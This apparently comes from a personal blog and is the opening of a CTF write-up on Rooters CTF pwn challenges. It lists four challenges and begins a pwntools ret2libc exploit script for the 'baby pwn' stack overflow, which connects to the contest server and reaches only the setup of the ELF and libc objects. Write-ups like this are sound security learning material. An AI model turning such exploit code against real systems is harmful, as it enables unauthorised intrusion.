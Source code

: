 ```yaml
---
layout: post
title:  "Rooters CTF: Pwn Challenges"
date:   2019-10-12 14:30:00 +0800
categories: pwn
tags: picoCTF-2019
---
```


I played this CTF with the team `warlock_rootx`. The pwn challenges were pretty good, I solved all of them except for one.

#### Challenges

<div class="toc-container">
  <ul id="markdown-toc">
    <li><a href="#baby-pwn" id="markdown-toc-h1-header">baby pwn</a>
    </li>
    <li><a href="#secure-rop" id="markdown-toc-h1-header">Secure ROP</a>
    </li>
    <li><a href="#user-administration" id="markdown-toc-h1-header">USER ADMINISTRATION</a>
    </li>
		<li><a href="#xsh" id="markdown-toc-h1-header">xsh</a>
    </li>
  </ul>
</div>

# baby pwn

### **Challenge**

* **Category:** pwn
* **Points:** 254
* **Solves:** 75

>Mommy what is stack overflow?
>
>nc 35.188.73.186 1111
>
>Author: codacker


### **Solution**

Glibc version is 2.27 which was found out by using the leak + niklasb's libc database.

This was a very simple ret2libc exploit with ASLR enabled. I won't go into too much detail as there are already tons of writeups and tutorials on how to do a ret2libc attack. You may refer to my comments below for some explanation.
```python
#!/usr/bin/env python2

from pwn import *

elf = ELF('./vuln')
libc = ELF('./libc.so.6') # libc-2.27 from Ubuntu Bionic
#p = process('./vuln')
p = remote('35.188.73.186', 1111)

# Receive the initial text
p.recv()

# Important addresses
puts = elf.plt['puts']
```